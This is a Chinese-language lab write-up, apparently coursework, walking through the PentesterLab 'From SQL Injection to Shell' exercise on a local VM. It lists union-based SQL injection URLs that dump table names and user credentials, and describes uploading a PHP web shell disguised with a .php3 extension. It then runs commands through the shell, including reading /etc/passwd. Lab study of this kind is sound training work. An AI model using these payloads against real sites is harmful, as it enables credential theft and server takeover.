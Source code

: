 ## SQL注入

### 1.实验环境

- 攻击者主机kali(10.0.2.4) 

![8](image\8.png)

- 服务器（10.0.2.7）

从https://pentesterlab.com/exercises/from_sqli_to_shell下载ios镜像并安装

![9](image\9.png)

- 主机能ping通服务器

![10](image/10.png)

- 扫描能到达的ip

![11](image/11.png)

### 2.端口扫描

- nmap扫描端口

![](image/12.png)

### 3.SQL注入

- 查看源代码

![](image/13.png)

- 检查是否有sql漏洞

`cat.php?id=1`

`cat.php?id=2`

`cat.php?id=3`

![14](image\14.png)

![14](image\15.png)

![14](image\15.png)



![](image/17.png)

`cat.php?id=1'`

![](image/18.png)

`cat.php?id=1 and 1=1`

![](image/19.png)

![](image/20.png)

通过这个结果我们可以知道该网站存在sql注入漏洞

- 检查SQL数据库是否支持union查询

`cat.php?id=1 UNION SELECT 1`

`cat.php?id=1 UNION SELECT 1,2,3,4`

`cat.php?id=1 UNION SELECT 1，2，3，4，5`

通过这样的枚举，我们可以知道SQL查询对应的返回结果集合的列字段数量为4

![](image/21.png)

![](image/22.png)

![](image/23.png)

- 查看数据库版本信息

`cat.php?id=1 UNION SELECT 1,@@version,3,4`

![](image/24.png)

- 当前用户信息

`cat.php?id=1 UNION SELECT 1,@@current_user(),3,4`

![](image/25.png)

- 当前数据库信息

`cat.php?id=1 UNION SELECT 1,@@database(),3,4`

![](image/26.png)

- 查看所有表的列表

  `cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

  ![](image/28.png)

- 查看所有列的表信息

`cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

![](image/29.png)

- 连接表和列。在user表中看到有用户和密码列。

`cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

![](image/30.png)

- 获取密码

`cat.php?id=0 UNION SELECT 1,concat(id,':',login,':',password),3,4 FROM users`

![](image/31.png)

- 破解密码

![](image/32.png)

- 登陆账户

破解后用用户名和破解得到的密码登陆账户

然后进入可得到下列页面

![](image/33.png)

- 构建一个php文件

![](image/35.png)

- 上传文件

![](image/34.png)

![](image/36.png)

我们看到上面文件上传不成功，将文件后缀名改为php3后上传才能成功。

![](image/37.png)

- 查看内核

`admin/uploads/well.php3?cmd=uname`

![](image/38.png)

- 查看当前目录文件

`admin/uploads/well.php3?cmd=ls u`

![](image/39.png)

- 获取靶机的用户列表

`admin/uploads/well.php3?cmd=cat /etc/passwd`

![](image/40.png)